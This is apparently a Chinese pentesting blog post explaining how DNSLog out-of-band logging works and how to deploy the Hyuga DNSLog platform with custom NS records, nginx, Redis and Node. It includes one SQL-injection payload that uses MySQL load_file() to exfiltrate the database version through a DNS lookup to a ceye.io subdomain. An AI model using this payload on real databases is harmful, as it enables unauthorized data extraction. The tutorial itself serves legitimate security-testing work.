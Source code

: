 title:
  DNSLog搭建
date:
  '[object Object]': null
tags: [渗透]

---

## 一、前言：

DNSLog的出现为渗透测试中的回显提供了很大的方便，一些无回显的漏洞，也可以通过DNSLog进行信息回显。本文将对DNSLog的搭建进行介绍，让你快速搭建起属于自己的DNSLog

<!--more-->

## 二、DNSLog原理
### 基本

DNS解析时，我们可以设置自己的NS服务器进行解析，并获取到全部的解析历史记录的日志，从而从日志中获取信息
![e61f61521758300f72d28ce047c4468e.png](http://lovebear.top/img/DNSLog/1.png)

### DNSLog盲注

Mysql load_file()函数可以发起请求，LOAD_FILE()函数操作需要用户具有FILE权限。构造语句，利用load_file()函数发起请求，使用Dnslog接收请求
```
select load_file(concat('\\\\',(select version()),'.mysql.4ke30o.ceye.io\\abc'))
```
**P.S.** 
1. 只能在windows系统下使用load_file()发起请求，在Linux环境下不能使用load_file()发起请求
2. secure_file_priv为""

## 三、搭建DNSLog

### 配置域名解析

**P.S.** 这里不推荐腾讯云（DNSPod），不能改自定义DNS服务器，也不支持NS记录泛解析，推荐阿里云

1. 准备两个域名，一台服务器
```
aaa.ink:	做web服务访问
aaa.cloud:	做DNS服务器域名
<server_ip>:运行DNSLog
```
**P.S.** 域名随便找，我这里申请了ink，cloud（便宜qwq）

2. aaa.cloud解析设置
![3ab351de66776f066705b4b3b1cbcccd.png](http://lovebear.top/img/DNSLog/2.png)
记录值为 <server_ip>
3. aaa.ink解析设置
![213ac4c894045259be9b4bac28bb193b.png](http://lovebear.top/img/DNSLog/3.png)
- A记录值为<server_ip>
- NS记录值为`ns1.aaa.cloud`, `ns2.aaa.cloud`
4. aaa.ink 设置自定义的DNS服务器
![148bff018334ce7634f2c5166ba53d55.png](http://lovebear.top/img/DNSLog/4.png)
修改DNS服务器为刚刚设置的NS记录值
![ba0883c24db987ab6443f1c17a20bc0a.png](http://lovebear.top/img/DNSLog/5.png)

### DNSLog部署

本文使用 [**Hyuga**](https://github.com/cckuailong/Hyuga) 搭建

#### 环境准备
1. OS：Ubuntu，其他系统相似，只不过安装软件命令有区别
2. 安装Redis
```
apt install redis-server
service redis start
```
3. 安装nginx
```
apt install nginx
service nginx start
```
4. 安装 yarn
```
curl -sS https://dl.yarnpkg.com/debian/pubkey.gpg | sudo apt-key add -
echo "deb https://dl.yarnpkg.com/debian/ stable main" | sudo tee /etc/apt/sources.list.d/yarn.list
apt update
apt install yarn
```
5. 安装 node
```
curl -sL https://deb.nodesource.com/setup_lts.x | bash -
apt install -y nodejs
```
6. 安装cnpm (国内npm慢)
```
npm install -g cnpm --registry=https://registry.npm.taobao.org
```
7. 安装vue
```
cnpm install -g @vue/cli
```
8. 安装vue-cli-service
```
cnpm install @vue/cli-service -g
```

#### 修改环境变量以及配置

1. 环境变量写入项目根目录下的 .env 文件：
```
APP_ENV=production

REDIS_SERVER=<redis_ip> # 本地就localhost
REDIS_PORT=6379
RECORDEXPIRATION=30

DOMAIN=<aaa.ink> # 记录域名
NS1_DOMAIN=ns1.<aaa.cloud> # NS域名
NS2_DOMAIN=ns2.<aaa.cloud> # NS域名
SERVER_IP=<server_ip> # 公网IP
```
2. 修改 deploy/nginx/nginx-hyuga.conf 中的 server_name, proxy_pass
```
server {
    listen 80;
    server_name <aaa.ink>;
...
}
...
server {
    listen 80;
    server_name *.<aaa.ink>;
....
	location / {
        proxy_set_header Host $http_host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        proxy_pass http://<aaa.ink>:5000;
    }
```

#### 前端
1. 修改 ui/src/utils/conf.js API 接口
修改 api.<aaa.ink>:5000 为记录域名
2. 构建前端文件
```
$ cd Hyuga/ui
$ yarn build
$ rm -r ../frontend
$ mv dist/ ../frontend
```

#### 部署
1. 前端
a. 配置Nginx
```
cp deploy/nginx/nginx-hyuga.conf  /etc/nginx/conf.d/
vim /etc/nginx/conf.d/nginx.conf
```
![3bb2139c759b6dd937ab17d90e60ab42.png](http://lovebear.top/img/DNSLog/6.png)
b. 配置前端项目
```
rm -r /var/www/*
cp /root/Hyuga/frontend/* /var/www/ -R
```
c. 重启nginx
```
service nginx restart
```
2. 后端
a. 编译go代码
```
go build hyuga.go
```
b. 运行
```
nohup ./hyuga &
```

P.S. 云服务器记得配置安全策略，打开80，53，5000端口

## 四、运行展示

![13c661dbadac5980d4cbc48423a817ad.png](http://lovebear.top/img/DNSLog/7.png)
已经收到访问记录
![4971b643d6f90d12e40ca5c890a70548.png](http://lovebear.top/img/DNSLog/8.png)
